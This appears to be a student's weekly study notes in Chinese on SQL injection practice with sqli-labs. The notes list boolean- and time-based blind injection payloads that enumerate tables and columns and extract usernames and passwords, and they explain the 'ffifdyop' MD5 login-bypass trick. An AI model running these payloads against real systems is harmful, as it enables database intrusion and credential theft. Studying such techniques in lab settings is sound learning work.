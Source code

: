 ```
?id=1" and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>97--+
?id=1" and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))>97--+**//****表名**

**//****字段**
?id=1" and (select count(column_name) from information_schema.columns where table_name='users')>10--+**//****字段个数**
?id=1" and length((select column_name from information_schema.columns where table_name='users' limit 0,1))>10--+**//****字段长度**
?id=1" and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))>97--+**//****字段名**

**//****数据**
?id=1" and length((select id from users limit 0,1))>5--+
?id=1" and length((select id from users limit 1,1))>5--+**//****数据长度**
?id=1" and ascii(substr((select id from users limit 0,1),1,1))>97--+**//****数据内容**
```

------

```
//时间盲注

?id=1'and if(length((select database()))>10,sleep(3),1)--+
?id=1'and if(ascii(substr((select database()),1,1))>97,sleep(3),1)--+
?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(3),1)--+
?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(3),1)--+
?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(3),1)--+
?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>97,sleep(3),1)--+
?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(3),1)--+
?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(3),1)--+
```

### 3.ffifdyop

ffifdyop经过md5加密后为276f722736c95d99e921722cf9ed621c，再转换为字符串为'or'6 乱码，可以实现sql注入

 

## 下周目标

1.继续进行sql注入的学习，刷sqli-labs